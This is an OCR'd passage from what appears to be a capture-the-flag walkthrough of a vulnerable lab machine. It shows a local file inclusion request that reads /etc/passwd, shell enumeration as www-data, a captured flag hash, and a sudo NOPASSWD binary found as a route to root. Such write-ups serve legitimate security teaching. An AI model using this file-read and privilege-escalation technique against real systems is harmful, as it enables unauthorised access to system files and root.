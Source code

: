 ```curl http://192.168.20.149/image.php?secrettier360=/etc/passwd```
\-rw-r--r-- 1 root root 18 Aug 29 13:59 password.txt

drwxr-xr-x 4 root root 4.0K Aug 29 13:58 ..

www-data\@ubuntu:/home/saket\$ cat user.txt

cat user.txt

af3c658dcf9d7190da3153519c003456

Looks like there is a user.txt flag and a file called enc, which seems to be
executable by anyone.

Further enumeration shows that www-data user can execute enc file with root
privileges.

www-data\@ubuntu:/home/saket\$ sudo -l

sudo -l

Matching Defaults entries for www-data on ubuntu:

env_reset, mail_badpass,

secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin

User www-data may run the following commands on ubuntu:

(root) NOPASSWD: /home/saket/enc

www-data\@ubuntu:/home/saket\$

When trying to execute enc the following message is presented:

www-data\@ubuntu:/home/saket\$ sudo /home/saket/enc

sudo /home/saket/enc

enter password: password

password

www-data\@ubuntu:/home/saket\$

Enumerating further a backup_pass file is found in /opt/backup/server_database
with credentials for “enc” executable.

www-data\@ubuntu:/home/saket\$ ls -laht /opt

ls -laht /opt

total 12K

drwxr-xr-x 3 root root 4.0K Aug 30 09:07 backup

drwxr-xr-x 3 root root 4.0K Aug 30 09:07 .

drwxr-xr-x 24 root root 4.0K Aug 29 10:57 ..

www-data\@ubuntu:/home/saket\$ cd /opt/backup

cd /opt/backup

```